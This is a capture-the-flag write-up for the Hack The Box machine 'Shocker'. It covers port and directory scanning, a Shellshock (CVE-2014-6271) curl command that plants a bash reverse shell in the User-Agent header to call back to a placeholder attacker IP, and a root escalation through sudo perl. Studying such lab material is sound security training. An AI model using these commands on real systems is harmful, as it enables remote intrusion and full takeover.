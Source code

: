 ```yaml
---
layout: post
title: "Shocker"
date: 2024-9-11 18:58:00 +0100
categories: [writeup, easy]
tags: [machine]
---
```


<p>
    <a href="https://app.hackthebox.com/machines/108">
        <img src="https://labs.hackthebox.com/storage/avatars/efef52a0fb63d9c8db0ab6e50cb6ac79.png" width="500"
        alt="Descripción">
    </a>
</p>

# Shocker Writeup

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Web Recon](#2-web-recon)
3. [CVE-2014-6271](#3-cve-2014-6271)
4. [Privilege Escalation](#4-privilege-escalation)

## 1. Recon

As usual, we start with an Nmap scan to identify open ports and services.

```bash	
figueron@kali$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
figueron@kali$ nmap -p 80,2222 -sCV -oA scans/nmap-tcpscripts 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

When visiting the website, we see a simple page with spider telling "Don't bug me!".

<p align="left">
    <img src="assets/img/writeupImgs/Shocker/image-20210516063155550.webp"
    alt="Website">
</p>    

## 2. Web Recon

As we dont see anything interesting on the website, we can run a feroxbuster scan to find hidden directories.

```bash
figueron@kali$ feroxbuster -u http://10.10.10.56 -f -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
403       11l       32w      294c http://10.10.10.56/cgi-bin/
403       11l       32w      292c http://10.10.10.56/icons/
403       11l       32w      300c http://10.10.10.56/server-status/
[####################] - 15s    29999/29999   0s      found:3       errors:0      
[####################] - 14s    29999/29999   2039/s  http://10.10.10.56
```

This was the execution that showed more info, with flags `-f` to append / to each request's URL, this means that there would be more paths inside this matches and `-n` to not recurse.

Next, we do this for every match we found.

For the `/cgi-bin/` directory, we can try for .sh, .cgi and .pl files, because they are common in this kind of directories. Cgi-bin is a directory used to execute scripts on the server side.

```bash
figueron@kali$ feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh, cgi, pl]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
[####################] - 57s   359988/359988  0s      found:1       errors:0      
[####################] - 57s   119996/119996  2089/s  http://10.10.10.56/cgi-bin/
```
We found a user.sh file, let's see what it contains.

<p align="center">
    <img src="assets/img/writeupImgs/Shocker/image-20210516070515215.webp"
    alt="User.sh">
</p>

Going to the website with burp and capturing the request, we can see that the user.sh file is being executed and in this case this is the command `uptime`.

This would be an example of `uptime`:

```bash
figueron@kali$ uptime
 07:08:38 up 5 days, 16:27, 35 users,  load average: 0.00, 0.08, 0.18
```

## 3. CVE-2014-6271

After a bit of researching, I found this [interesting CVE](https://pentesterlab.com/exercises/cve-2014-6271). 

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **info**: "This vulnerability impacts the Bourne Again Shell (Bash). Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface (CGI)."
{: .prompt-info }
<!-- markdownlint-restore -->


```bash
figueron@kali$ curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1"
```

Now, we just listen to that port on the attacker machine and we will get a shell.

```bash
figueron@kali$ nc -lvnp <port>
```

# 4. Privilege Escalation

After getting a shell, we can see that we are the user `shelly`. So we can run `sudo -l` to see what we can run as root.

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run perl as root, so we can use this to get a root shell.

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **TIP**: [GTFOBins](https://gtfobins.github.io/#) is a nice place to look for when there is a common binary that can be used to escalate privileges, this page contains lots of ways to exploit binaries.
{: .prompt-tip }
<!-- markdownlint-restore -->


```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
```	

Now we can read the root flag.

Done !!